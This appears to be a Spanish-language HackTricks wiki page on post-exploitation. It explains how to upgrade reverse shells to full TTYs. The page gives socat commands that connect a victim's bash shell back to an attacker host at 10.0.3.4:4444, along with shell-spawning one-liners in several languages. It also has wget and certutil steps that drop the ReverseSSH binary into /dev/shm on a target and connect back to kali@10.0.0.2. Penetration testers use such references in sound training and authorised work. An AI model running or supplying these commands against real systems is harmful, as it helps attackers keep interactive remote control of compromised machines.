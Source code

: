 # Full TTYs

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Full TTY

Tenga en cuenta que el shell que establezca en la variable `SHELL` **debe** estar **listado dentro de** _**/etc/shells**_ o `El valor de la variable SHELL no se encontró en el archivo /etc/shells Este incidente ha sido reportado`. Además, tenga en cuenta que los siguientes fragmentos solo funcionan en bash. Si está en zsh, cambie a bash antes de obtener el shell ejecutando `bash`.

#### Python

{% code overflow="wrap" %}
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

{% hint style="info" %}
Puedes obtener el **número** de **filas** y **columnas** ejecutando **`stty -a`**
{% endhint %}

#### script

{% code overflow="wrap" %}
```bash
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

#### socat
```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
### **Spawn shells**

* `python -c 'import pty; pty.spawn("/bin/sh")'`
* `echo os.system('/bin/bash')`
* `/bin/sh -i`
* `script -qc /bin/bash /dev/null`
* `perl -e 'exec "/bin/sh";'`
* perl: `exec "/bin/sh";`
* ruby: `exec "/bin/sh"`
* lua: `os.execute('/bin/sh')`
* IRB: `exec "/bin/sh"`
* vi: `:!bash`
* vi: `:set shell=/bin/bash:shell`
* nmap: `!sh`

## ReverseSSH

Una forma conveniente de **acceso a shell interactivo**, así como **transferencias de archivos** y **reenvío de puertos**, es colocar el servidor ssh estáticamente vinculado [ReverseSSH](https://github.com/Fahrj/reverse-ssh) en el objetivo.

A continuación se muestra un ejemplo para `x86` con binarios comprimidos con upx. Para otros binarios, consulta la [página de lanzamientos](https://github.com/Fahrj/reverse-ssh/releases/latest/).

1. Prepárate localmente para capturar la solicitud de reenvío de puerto ssh:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -v -l -p 4444
```
{% endcode %}

* (2a) Objetivo de Linux:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -p 4444 kali@10.0.0.2
```
{% endcode %}

* (2b) Objetivo de Windows 10 (para versiones anteriores, consulta [project readme](https://github.com/Fahrj/reverse-ssh#features)):

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
certutil.exe -f -urlcache https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86.exe reverse-ssh.exe

reverse-ssh.exe -p 4444 kali@10.0.0.2
```
{% endcode %}

* Si la solicitud de reenvío de puerto ReverseSSH fue exitosa, ahora deberías poder iniciar sesión con la contraseña predeterminada `letmeinbrudipls` en el contexto del usuario que ejecuta `reverse-ssh(.exe)`:
```bash
# Interactive shell access
ssh -p 8888 127.0.0.1

# Bidirectional file transfer
sftp -P 8888 127.0.0.1
```
## Penelope

[Penelope](https://github.com/brightio/penelope) actualiza automáticamente las shells reversas de Linux a TTY, maneja el tamaño del terminal, registra todo y mucho más. También proporciona soporte de readline para shells de Windows.

![penelope](https://github.com/user-attachments/assets/27ab4b3a-780c-4c07-a855-fd80a194c01e)

## Sin TTY

Si por alguna razón no puedes obtener un TTY completo, **aún puedes interactuar con programas** que esperan entrada del usuario. En el siguiente ejemplo, la contraseña se pasa a `sudo` para leer un archivo:
```bash
expect -c 'spawn sudo -S cat "/root/root.txt";expect "*password*";send "<THE_PASSWORD_OF_THE_USER>";send "\r\n";interact'
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
